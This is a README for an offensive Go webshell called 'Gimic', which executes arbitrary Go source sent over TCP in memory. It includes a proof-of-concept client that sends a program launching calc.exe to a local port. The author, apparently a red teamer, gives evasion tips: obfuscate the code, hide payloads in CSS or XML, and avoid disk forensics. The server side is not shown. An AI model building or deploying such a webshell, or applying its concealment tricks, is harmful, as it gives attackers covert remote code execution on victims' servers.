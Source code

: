 # Gimic
Gimic is a go based webshell that will interpret and execute arbitrary go source code in memory transmitted via http/tcp connection.

Inspiration came from the Supernova Webshell found as part of the recent Solarwinds attacks, exposing compilers/interpreters is a neat trick.

This is a very rudimentary POC, to use in a red team context I would build out an api exposing a few endpoints, encode and obfuscate my go source to be transferred,
maybe embed the obfuscated code in some css or xml, something people dont like to read. 

Did some preliminary examination with procmon to see if the transmitted payloads are being written to disk and I wasnt able to detect any, but some forensics people may have more luck than I did.


#POC

```
package main

import (
	"fmt"
	"log"
	"net"
)

func main() {
	conn, err := net.Dial("tcp", "127.0.0.1:31337")
	if err != nil {
		log.Println(err)
	}
	testscript := `package main

import (
	"os/exec"
	"fmt"
)

func main() {
	cmd := exec.Command("C:\\Windows\\System32\\calc.exe")
	cmd.Run()
	fmt.Println("done")
}`
	fmt.Fprintf(conn, testscript+"\r\n\r\n")
}
```

For even more fun, bundle this with https://medium.com/@shantanukhande/red-team-how-to-embed-golang-tools-in-c-e269bf33876a
